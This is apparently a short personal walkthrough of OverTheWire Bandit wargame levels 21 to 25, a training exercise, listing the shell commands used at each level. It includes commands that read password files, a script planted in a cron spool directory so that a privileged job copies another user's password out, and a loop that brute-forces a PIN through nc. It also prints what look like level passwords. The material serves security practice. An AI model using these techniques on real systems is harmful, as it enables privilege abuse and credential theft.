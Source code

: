 ## Bandit 21 -> 22
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
We are seeing what the script does and trying to retrieve the password
Reverse Engineering 101!!
*ez peazy*

## Level 22 -> 23
```
cd /etc/cron.d
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
$(echo I am user bandit22 | md5sum | cut -d ' ' -f 1)
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
Same as above mostly

## Level 23 -> 24
```
cd /etc/cron.d
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
vim /tmp/jk/pass.sh
```

> cat /etc/bandit_pass/bandit24 > /tmp/s8n.txt

```
chmod 777 /tmp/jk/pass.sh
touch /tmp/jk/jk.txt
chmod 666 /tmp/jk/jk.txt
cp /tmp/jk/pass.sh /var/spool/bandit24/foo
```
*hold on*
```
cat /tmp/jk/jk.txt
```


## Bandit 24 -> 25
```
nano /tmp/pswd.sh
```

>  #!/bin/bash
>
 >for i in {1000..9999}
>do	       
>			echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
>done
```
./pswd.sh | nc  localhost 30002
```
